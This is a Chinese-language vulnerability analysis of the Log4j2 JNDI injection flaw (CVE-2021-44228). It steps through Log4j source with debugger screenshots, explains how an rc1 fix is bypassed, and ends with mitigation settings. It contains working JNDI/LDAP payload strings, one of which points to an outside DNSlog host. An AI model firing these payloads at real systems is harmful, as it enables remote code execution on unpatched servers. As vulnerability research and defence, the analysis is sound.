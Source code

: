 漏洞成因：
=====

当日志信息中含有`${`字符串时，程序会使用`lookup`解析字符串导致产生注入漏洞。  
lookup机制提供了一种在任意位置向Log4j配置添加值的方法，支持`date, java, marker, ctx, lower, upper, jndi, main, jvmrunargs, sys, env, log4j`这些协议，攻击者可以使用特定payload构造jndi协议，造成JNDI注入，进而造成RCE漏洞

代码分析：
=====

使用唐小风的exp搭建一个demo，<https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce>  
1、给logger.error()打上断点，进行debug调试  
[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ae58f8e19d9db6c8edb32da9cdd8b6854b700fa7.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ae58f8e19d9db6c8edb32da9cdd8b6854b700fa7.png)  
2、点击下一步，进入到了error:AbstractLogger (org.apache.logging.log4j.spi)中  
[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-275ba27f94a82e603acb65fe12f419158df41aff.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-275ba27f94a82e603acb65fe12f419158df41aff.png)  
3、跟进logIfEnabled:AbstractLogger (org.apache.logging.log4j.spi)中  
[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1da085e579aa45b7904832b3b4621d3b9cddb889.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1da085e579aa45b7904832b3b4621d3b9cddb889.png)  
这里会调用isEnabled:Logger (org.apache.logging.log4j.core)判断logger的级别  
[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d9a43cd154d9919578f406fed76440292514b392.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d9a43cd154d9919578f406fed76440292514b392.png)  
如果满足要求，会进入 logMessage:AbstractLogger(org.apache.logging.log4j.spi)中  
[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e48928877d13becfaa82a6caf7f964b84da9d114.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e48928877d13becfaa82a6caf7f964b84da9d114.png)  
这里省略一些不重要的函数调用，直接进入log中  
4、LoggerConfig:logEvent(org.apache.logging.log4j.core.config)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-23108394b4667dd16ebfcb9f997bc6598ed85a24.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-23108394b4667dd16ebfcb9f997bc6598ed85a24.png)

然后进入到 processLogEvent:LoggerConfig (org.apache.logging.log4j.core.config)中调用callAppenders  
[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-183c9f698ff2094cac1f5891eb5368f1b8026682.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-183c9f698ff2094cac1f5891eb5368f1b8026682.png)  
callAppenders:540, LoggerConfig (org.apache.logging.log4j.core.config)中调用callAppender  
[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5e343c1ddee79b9e6c62bf77745d520d130474fb.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5e343c1ddee79b9e6c62bf77745d520d130474fb.png)

tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)  
中调用append  
[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ac7d73129ee0245ae74c2a3a467069badbd05288.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ac7d73129ee0245ae74c2a3a467069badbd05288.png)  
directEncodeEvent:197AbstractOutputStreamAppender(org.apache.logging.log4j.core.appender)中调用encode  
[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-83647376ad56b2d069435b9d1530ce4e2d83a4dc.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-83647376ad56b2d069435b9d1530ce4e2d83a4dc.png)  
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)中调用toSerializable  
[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-341da66bf36a75a75042d8d828de1b932b76ac93.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-341da66bf36a75a75042d8d828de1b932b76ac93.png)  
toSerializable:344,PatternLayout$PatternSerializer(org.apache.logging.log4j.core.layout)中调用format  
[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b75dbe3f0b9674acaf3d5754f277bc1f52304e0f.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b75dbe3f0b9674acaf3d5754f277bc1f52304e0f.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a51ac6471638f597aac62c2ba460d9cc8b479480.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a51ac6471638f597aac62c2ba460d9cc8b479480.png)  
5、我们跟进到format:60, LiteralPatternConverter (org.apache.logging.log4j.core.pattern)这里是第一个关键点，我们看以下代码

```java
this.substitute = config != null && literal.contains("${");
this.substitute ? this.config.getStrSubstitutor().replace(event, this.literal) : this.literal
```

这是一个三元表达式,需要同时满足config不为空和result包含`${`,才会运行 `this.config.getStrSubstitutor().replace(event, result)`,所以payload中要有`${`才可以

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-dc62ba4f749e246996b97b84ec0ff76ac1385bbb.png)  
继续跟进到substitute:StrSubstitutor (org.apache.logging.log4j.core.lookup)  
中，可以看到匹配一些特殊字符  
[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3fdcc113b198822810b60441470d251196ae9b7b.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3fdcc113b198822810b60441470d251196ae9b7b.png)  
如果字符串中有这些字符就进行删除，我们的payload就被处理为了`jndi:ldap://h1glio.dnslog.cn/id`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f4484f3487209b78bceba9dc8e060ac5b149cc4d.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f4484f3487209b78bceba9dc8e060ac5b149cc4d.png)  
继续跟进

```java
protected String resolveVariable(final LogEvent event, final String variableName, final StringBuilder buf, final int startPos, final int endPos) {
    StrLookup resolver = this.getVariableResolver();
    return resolver == null ? null : resolver.lookup(event, variableName);
}
```

调用了 getVariableResolver:StrSubstitutor (org.apache.logging.log4j.core.lookup)，该方法会根据协议来进行处理操作，支持协议有`date, java, marker, ctx, lower, upper, jndi, main, jvmrunargs, sys, env, log4j`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-05a1d29e65e4436d78b4d617da39c86c51f27f28.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-05a1d29e65e4436d78b4d617da39c86c51f27f28.png)  
然后跟进到 lookup: Interpolator (org.apache.logging.log4j.core.lookup)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-56911146381ea6fffc59fd91443779300d7b4a7f.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-56911146381ea6fffc59fd91443779300d7b4a7f.png)

程序匹配到来jndi，就会选用Jndi Lookup进行处理.JndiLookup允许通过JNDI检索变量，默认情况下, key的前缀为 `java:comp/env /`，但如果key包含`:`,则不会添加前缀  
关于lookup详情，可参考文档https://www.docs4dev.com/docs/zh/log4j2/2.x/all/manual-lookups.html  
[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-37ec93e111e13058b029945fe4bb2f948ca1326f.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-37ec93e111e13058b029945fe4bb2f948ca1326f.png)  
继续跟进，在 lookup:JndiManager (org.apache.logging.log4j.core.net)  
lookup:56, 中会调用 jndiManager.lookup解析请求,最终形成注入漏洞.  
[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d05dc79188b23d3291225ffd8f9dcf52617ac716.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d05dc79188b23d3291225ffd8f9dcf52617ac716.png)

Bypass rc1：
===========

2021年12月06日，log4j2 发布修复包 log4j-2.15.0-rc1.jar，但是rc1存在被绕过的风险。  
我们看下官方的rc2的修复包，对比rc1，我们看到是在catch下面加了return null。  
其实rc1的绕过就在此处，想办法让其抛出`URISyntaxException`异常，那么代码就能进入到catch中，然后就能像未修复之前，执行lookup。

查阅资料发现`URI uri = new URI(name);`其实是将name转换为等效的 URI，任何 name实例只要遵守 RFC 2396 就可以转化为 URI，有些未严格遵守该规则的 name 将无法转化，就会抛出`URISyntaxException`异常，所以我们使用`${jndi:ldap://127.0.0.1:1389/ badClassName}`就可以绕过rc1，注意`/`与`badClassName`之间存在空格，空格的存在使得 name未遵守RFC 2396，就会抛出异常，进而执行`lookup`。  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-03e394b57c40f8e6e53fb209fbbec2df4ada0f7d.jpg)  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fa26b7dbd84978ea809670e28ab9ba536f173224.jpg)

应急方案：
=====

```php
可以使用waf等安全设备对${}样式的字符串进行匹配拦截；   
在log4j2.ini配置中可以设置log4j2formatMsgNoLookups=True 禁止解析 JDNI；
系统环境变量 FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS 设置为true；
修改Jvm运行参数: -Dlog4j2.formatMsgNoLookups=true；
```